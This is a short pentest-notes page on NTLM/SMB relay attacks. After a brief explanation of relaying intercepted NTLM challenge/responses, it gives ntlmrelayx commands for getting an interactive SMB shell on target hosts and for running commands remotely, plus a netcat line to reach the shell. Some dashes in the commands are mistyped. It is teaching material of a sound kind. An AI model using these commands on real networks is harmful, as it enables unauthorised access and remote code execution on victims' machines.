 ```yaml
---
icon: screencast
---
```


# NTLM/SMB Relay

## Introduction

A relay attack is the act of intercepting information passing over a network and relaying it to a target, which is none other than the legitimate recipient of the information.

The NTLM protocol carries out the challenge/response in clear text because the password hash is designed to protect this secret. It is therefore possible for a malicious user in a Man In The Middle position to intercept all the challenges/responses circulating on the network.



## SMB Relay Exploits

Beyond dumping out the local SAM hashes, we can have other fun with SMB relay attacks. For example, we can gain shell access on a machine:

```
sudo ntlmrelayx.py –tf targets.txt –smb2support -i
```

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

```
nc 127.0.0.1 11000
```

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

We can also run commands remotely. In this example, we’ll simply run “whoami” during the relay attack.

```
sudo ntlmrelayx –tf targets.txt –smb2support –c “whoami”
```

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>



***

## REFERENCES

* [https://www.vaadata.com/blog/understanding-ntlm-authentication-and-ntlm-relay-attacks/](https://www.vaadata.com/blog/understanding-ntlm-authentication-and-ntlm-relay-attacks/)
* [https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/](https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/)
